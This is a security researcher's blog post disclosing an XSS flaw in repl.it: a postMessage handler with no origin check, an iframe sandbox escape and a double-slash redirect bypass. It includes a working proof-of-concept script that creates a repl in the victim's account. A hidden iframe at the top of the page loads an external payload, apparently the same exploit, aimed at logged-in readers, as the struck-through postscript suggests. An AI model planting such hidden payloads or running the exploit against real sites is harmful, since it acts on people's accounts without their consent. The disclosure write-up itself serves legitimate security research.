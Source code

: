```yaml
---
layout: post
title: Repl.it XSS
---
```


<iframe style="display:none" src="https://gistcdn.githack.com/kmh11/f02e5c33844ac5ac1f18ed3be0632fce/raw/631fc0ce170d09da8d54a23772c21bb99910714f/replit.html"></iframe>

I recently found a rather interesting, non-traditional XSS vulnerability in [repl.it](https://repl.it). I was inspired to try this after reading a [writeup](https://github.com/koczkatamas/gctf19/tree/master/pastetastic) for Pastetastic from Google CTF 2019, which showed off some really cool cross-origin stuff with iframes.

In case you're not familiar with repl.it, it's basically an online IDE with tons of features, including website hosting. Each program you make runs in its own environment called a "repl" (it's a lot more than just a read-eval-print loop).

While messing around with how different features worked, I discovered that repls for static sites (HTML, CSS, JS) were previewed in a few nested iframes. Specifically, the site preview consisted of an iframe of [https://replbox.repl.it/public/secure/](https://replbox.repl.it/public/secure/), which contained a blank iframe manipulated by its parent, which was modified to contain an iframe pointing to the URL where the static files are hosted:

```
https://replbox.repl.it/data/web_hosting_1/<username>/<repl_name>/
```

I'm actually going to take a little detour and look at something interesting with the sandboxing of that iframe: 

```javascript
sandbox="allow-forms allow-pointer-lock allow-popups allow-same-origin allow-scripts allow-modals"
```

If this was done correctly, it would prevent the iframe containing user content from messing with the top window's location since the `allow-top-navigation` option is not set. However, the `allow-same-origin` attribute means it is not sandboxed from accessing windows that are also on `replbox.repl.it`, and it just so happens the parent two levels up (the ironically named `/public/secure` page) is both on the same origin and not sandboxed. This means the location of the top window, `repl.it`, can be modified with something like:

```javascript
window.parent.parent.eval("top.location.href = 'https://kmh.zone'")
```

An arbitrary redirect isn't a particulary high severity vulnerability, but it obviously goes against the intent of the authors of the code, and shows that cross-origin frame stuff is very weird.

Now let's start looking at the actual XSS vulnerability. The `/public/secure` page imports a script, [runner.js](https://replbox.repl.it/public/secure/runner.js). After some variable renaming and refactoring, the important part of the code looks like this:

```javascript
var listeners = { load: s, evaljs: a, html: i };
var secret;
window.addEventListener("message", function(event) {
  var req = JSON.parse(event.data);
  if (req.secret) {
    if (secret || "handshake" !== req.type) {
      if (req.secret !== secret) return;
      if (!listeners[req.type])
      	throw Error("No listeners for event:" + req.type);
      listeners[req.type](req.data);
    } else secret = req.secret;
  }
})
```

There's a pretty glaring issue here &mdash; the message handler doesn't check the origin. This means we can stick this in an iframe in our own site and send any messages we want, including `evaljs` (which, per it's name, evaluates JavaScript).

So this gives us full code execution on `replbox.repl.it`. The thing is that this is kind of useless; there is a session cookie on that domain, but I couldn't see anything it authenticated for. I messed around for a while trying to find stuff like a path I could host a service worker on, but all the user controlled content was under directories based on username and repl name.

As I continued to mess around, I started to notice the similarities between the API on `repl.it` and `replbox.repl.it`: they both had `/data` routes, they both had `/public` routes, and the 404 pages were the same. Eventually I realized that if I set my session cookie to be the same on `replbox.repl.it` as `repl.it`, I could access the authenticated API routes. Then I had an idea &mdash; what if there was `/public/secure/` on `repl.it`? And lo and behold, there it was! I had arbitrary JavaScript execution on the main domain. I quickly wrote up a proof of concept that created a repl as the currently signed in user:

```html
<iframe style="position:absolute;left:-100000px;" id="repl" src="https://repl.it/public/secure"></iframe>
<script>
function createRepl(){
  var xhr = new XMLHttpRequest();
  xhr.open("POST", 'https://repl.it/data/repls/new');
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.send(JSON.stringify({language: "python3", title: "kmh was here " + Math.floor(Math.random()*1000000), folderId: "", isPrivate: false, description: ""}));
}
setTimeout(function() {
  repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "handshake"}), "*");
    setTimeout(function() {
      repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "load"}), "*")
        setTimeout(function() {
          repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "evaljs", data: createRepl.toString()+";createRepl()"}), "*")
        }, 200)
    }, 200);
}, 200);
</script>
```
I contacted the repl.it team on Discord, and after waiting a bit, I got a reply and it was forwarded over to the engineering team. Now, according to their [security page](https://repl.it/site/docs/misc/security), they "work with you to fix the issue and then we will credit you on our blog." After the initial report, they gave me a year-long free "hacker" plan, and I didn't hear from them again.

I noticed a bit later that they pushed a "fix" to the issue by redirecting from

```
https://repl.it/public/secure/
```

to

```
https://replbox.repl.it/public/secure/
``` 

However, in my toolkit of random things that sometimes work, I had a trick that was the intended solution for a problem I wrote for [ångstromCTF 2019](https://kmh.zone/blog/2019/04/24/angstromctf-2019.html#dom-validator): there are often inconsistencies in how having multiple slashes in a URL is handled. Some web servers collapse them, some don't.

In this case, it seems like however they are matching the redirect does not collapse multiple slashes, but the way they are serving the files does. This means that you can go to [https://repl.it/public//secure/](https://repl.it/public//secure/) and still get full code execution on the `repl.it` domain. Since they never contacted me to verify whether it was fixed, I had no way or reason to let them know. Oh well.

~~PS: If you're currently logged in to repl.it, check out your [repls](https://repl.it/repls) ;)~~

Update: repl.it has fixed the redirect bypass, as well as a couple other XSS and CSRF issues I reported. 

